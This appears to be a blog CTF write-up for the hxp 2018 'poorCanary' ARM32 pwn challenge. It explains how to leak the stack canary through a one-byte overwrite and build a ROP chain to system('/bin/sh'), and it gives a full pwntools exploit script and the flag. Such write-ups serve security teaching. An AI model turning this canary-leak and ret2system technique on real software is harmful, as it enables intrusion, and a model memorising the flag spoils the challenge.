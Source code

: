 ```yaml
---
layout: post
title: Hxp 2018 poorCanary
date: 2025-07-05 18:32:03 +0300
categories: Nightmare-series ret2system
tags: nightmare buffer-overflow arm32 leak-canary ROP stack-canary ret2win qemu-arm arm 
---
```


## Information 
- Category: Pwn
- Points: 

## Description
> None

## Write-up
To run the program, we need ```qemu-arm```:
```bash
qemu-arm canary
Welcome to hxp's Echo Service!
> 21321312
21321312
> AAAAAAAAAAAAa
AAAAAAAAAAAAa
>
```


> To install it on **Arch Linux** ```sudo pacman -S qemu-user``` and ```yay -S arm-none-eabi-binutils arm-none-eabi-gdb``` 
{: .prompt-tip}


In the ```main``` function, we can see that it uses ```read()``` to get input from the user into the variable ```input + 1```, and then uses ```puts()``` to print it:
<img src="/images/poorcanary/main.png" style="border-radius: 14px;">

To bypass the canary, we need to know how far it is from our input.
The input buffer is 41 bytes, but the program writes to ```input + 1```, so we control only **40 bytes** of it.

The canary comes right after the buffer. If we send **40 bytes**, then send **1 extra byte**, we can overwrite the **first byte** of the canary — which is normally ```0x00```.

This small overwrite lets ```puts()``` print the rest of the canary.
As a result, we can leak **3 bytes** of the canary, and later use them to rebuild the full canary (by adding ```0x00``` as the last byte).



In Ghidra, we can find the ```system``` function and also the string ```"/bin/sh"``` in memory.
So we can call ```system("/bin/sh")``` to get a shell.

Now we just need a gadget to set ```r0``` (the first argument in ARM) to point to "/bin/sh".
For example, a gadget like ```pop {r0, pc}``` would work.

Finally, we calculate the offset from the buffer to the **return address**, so we can:
- Fill the buffer
- Add the canary
- Add padding 
- Overwrite the return address 


<img src="/images/poorcanary/payload.png" style="border-radius: 14px;">

## Exploit

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./canary")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addr", 4422)

    return r

def leakCanary(r):

    offset = 37
    byteOW = b"Here"

    payload = b"A"*offset
    payload+= byteOW

    r.send(payload)
    r.recvuntil(b"Here")
 
    leak = r.recv(0x3)
    canary = b"\x00" + leak

    log.success(f"Canary = {canary}")

    return canary

def main():
    r = conn()

    pop_r0 = 0x00026b7c 
    system = 0x00016d90
    binsh = 0x71eb0

    canary = leakCanary(r)

    payload = b"A"*40 + canary
    payload+= b"B"*12
    payload+= p32(pop_r0) + p32(binsh)
    payload+= b"C"*4
    payload+= p32(system)

    r.send(payload)
    r.send("\n")

    r.interactive()


if __name__ == "__main__":
    main()
```

## Flag
Flag: ```hxp{w3lc0m3_70_7h3_31337_club_k1dd0}```

 
